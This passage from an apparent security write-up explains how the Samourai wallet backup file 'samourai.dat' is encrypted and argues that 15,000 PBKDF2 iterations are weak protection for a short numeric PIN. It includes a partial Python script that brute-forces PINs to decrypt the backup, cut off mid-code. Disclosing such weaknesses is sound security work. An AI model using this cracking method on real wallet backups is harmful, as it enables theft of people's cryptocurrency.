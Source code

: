
From now on its pretty straightforward. By inspection we can assume it uses symmetric key encryption, in particular, AES-256-CBC. The version attribute has value 2 according to JSON object **samourai.dat** so it will call *AESUtil.decryptSHA256()* to perform decryption.

The method will create a new instance of KOpenSSL which is an implementation of cryptographic primitives in Kotlin and sets the value of *DefaultPBKDF2HMACSHA256Iterations*. In this case, PBKDF2 will force us to derive the correct key to use in decryption procedure by iterating 15.000 times (HMAC-SHA256).

Iterations have a computational cost, however, the current value is not significant enough given the weak password complexity (5 to 8 digit PIN number). For reference, 1Password software is currently using 100.000 iterations for key derivation.

In resume, the full decryption procedure is the following: 


1. User input PIN
2. Key = GUID + PIN
3. Open "samourai.dat" file
4. Read "payload" attribute
5. Derive AES key using PBKDF2-HMAC-SHA256 (15.000 iters)
6. Perform AES decryption of payload (ciphertext) using the derived key


## Python Proof-of-Concept

```python
import json, hashlib
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

''' Load our payload in base64 from "samourai.dat" '''
with open("samourai.dat", "r") as f:
    samourai = json.loads(f.read())
    payload = b64decode(samourai["payload"])

''' Try PIN combinations (must use "zfill" to test left zeros) '''
''' The correct PIN for this demo is "12345" (~30 seconds for 300 tries) '''
START = 12000
END = 12999
for i in range(START, END):
    pin = str(i)
    print(pin)
    
    ''' Salt for key derivation (8 payload/ciphertext bytes from 8 to 16) '''
    salt = payload[8:16].hex() # "1c5690f5acb17d4f"
        
    ''' Password (GUID + PIN) (Can be recovered from "shared_preferences.xml" or Frida) '''
    password = b"b35b2502-541d-4de7-9c95-76fa1d09f668b28da911e4191079f2038a8a6ec978e4fc325fc0" + pin.encode('utf-8')
    
    iters = 15000

    pbkdf2_hmac_key = hashlib.pbkdf2_hmac('sha256',
                                      password, bytes.fromhex(salt),
                                      iters,
                                      dklen=256)
    ''' 32 bytes '''
    key = pbkdf2_hmac_key.hex()[:64]

    ''' 16 bytes '''
    iv = pbkdf2_hmac_key.hex()[64 : 64 + 32]

    try:
        cipher = AES.new(bytes.fromhex(key), AES.MODE_CBC, bytes.fromhex(iv))
```